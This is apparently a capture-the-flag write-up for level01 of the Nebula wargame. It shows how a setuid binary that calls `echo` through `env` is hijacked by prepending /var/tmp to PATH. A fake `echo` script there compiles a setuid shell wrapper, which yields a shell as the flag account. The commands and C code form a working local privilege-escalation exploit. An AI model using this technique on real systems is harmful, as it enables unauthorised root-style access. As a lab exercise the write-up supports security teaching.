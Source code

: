 We can see a bunch of UID/GID stuff being set with with `setresgid` and `setresuid` and then a system command being run with `system()`. The problem lies in the fact that the command that is being run does not have a full path specified for the `echo` command. Even though its called with `/usr/bin/env`, it is possible to modify the current `PATH` variable and have `env` report echo as being somewhere other than where it would normally be.

On the filesystem we find the `flag01` binary and can see it is setuid for `flag01` user (we are currently logged in as `level01`):

```bash
level01@nebula:~$ cd ~flag01/
level01@nebula:/home/flag01$ ls -lh flag01
-rwsr-x--- 1 flag01 level01 7.2K 2011-11-20 21:22 flag01

level01@nebula:/home/flag01$ ./flag01
and now what?
```

Abusing this is really easy. I decided to create my own `echo` binary and modified `PATH` so that it is called instead of the real `echo`. A small note here though. The Nebula vm has `/tmp` mounted with the `nosuid` option. I see this many times in the real world. What this effectively means is that any suid bit will be ignored for binaries executed on this mount point. Luckily though my second resort being `/var/tmp` was not mounted separately and I had write access there :)

```bash
level01@nebula:/home/flag01$ mount | grep "/tmp"
tmpfs on /tmp type tmpfs (rw,nosuid,nodev)

level01@nebula:/home/flag01$ ls -lah /var/ | grep tmp
drwxrwxrwt 3 root root   29 2012-08-23 18:46 tmp
```

So, to solve level01:

```bash
level01@nebula:/home/flag01$ cat /var/tmp/echo
#!/bin/sh
gcc /var/tmp/shell.c -o /var/tmp/flag01
chmod 4777 /var/tmp/flag01

level01@nebula:/home/flag01$ ls -lh /var/tmp/echo
-rwxrwxr-x 1 level01 level01 77 2015-05-08 07:35 /var/tmp/echo

level01@nebula:/home/flag01$ cat /var/tmp/shell.c
#include<stdio.h>

int main(void) {
    setresuid(geteuid(), geteuid(), geteuid());
    system("/bin/sh");
    return 0;
}

level01@nebula:/home/flag01$ export PATH=/var/tmp:$PATH
level01@nebula:/home/flag01$ ./flag01
level01@nebula:/home/flag01$ ls -lah /var/tmp/flag01
-rwsrwxrwx 1 flag01 level01 7.1K 2015-05-08 07:37 /var/tmp/flag01

level01@nebula:/home/flag01$ /var/tmp/flag01
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
